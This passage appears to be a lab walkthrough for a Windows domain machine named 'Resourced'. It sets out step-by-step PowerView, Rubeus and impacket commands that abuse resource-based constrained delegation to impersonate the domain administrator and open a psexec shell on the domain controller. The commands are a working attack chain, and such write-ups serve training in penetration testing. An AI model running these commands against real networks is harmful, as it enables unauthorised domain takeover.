 `Import-Module .\PowerView.ps1`

`Get-DomainComputer SERVICEA #Check if created if you have powerview`

![c6c891b31d06ed6bfb8131ca17d96e46.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/c6c891b31d06ed6bfb8131ca17d96e46.png?raw=true)

`$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid`

`$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"`

`$SDBytes = New-Object byte[] ($SD.BinaryLength)`

`$SD.GetBinaryForm($SDBytes, 0)`

`hostname #to check the machine name`

`Get-DomainComputer MACHINENAME | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`

Check if worked

`Get-DomainComputer MACHINENAME -Properties 'msds-allowedtoactonbehalfofotheridentity'`

![a668bc720963259eadb98d20a7cccf7d.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/a668bc720963259eadb98d20a7cccf7d.png?raw=true)

It is possible to get the ticket in 2 different ways (Rubeus and impacket-getST)

## Rubeus

`.\Rubeus.exe hash /password:123456 /user:SERIVCEA  /domain:resourced.local`

`![47f0a1a74c820e101205da8c7524571b.png](file:///C:/Users/Jon/.config/joplin-desktop/resources/7523e56696cb4df6b9712dc972e8e434.png)`

`.\Rubeus.exe s4u /user:SERVICEA /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local /ptt`

![4bff73fce72d2eef75210c932f085509.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/4bff73fce72d2eef75210c932f085509.png?raw=true)

Grab administrator's hash and convert to .kirbi

`base64 -d ticket.kirbi.b64 > ticket.kirbi`

## impacket-getST

`sudo impacket-getST -spn cifs/resourcedc.resourced.local -impersonate Administrator -dc-ip 192.168.191.175 resourced.local/SERVICEA$:123456`

![4be8af17f229ab80dcf7b4f971d5fa2c.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/4be8af17f229ab80dcf7b4f971d5fa2c.png?raw=true)

Add resourcedc.resourced.local entry to /etc/hosts and run the command

`impacket-psexec -k resourcedc.resourced.local`

![1c139b8a17abfd25877be8716f8dde2b.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Resourced/1c139b8a17abfd25877be8716f8dde2b.png?raw=true)

Pwn3d! :D
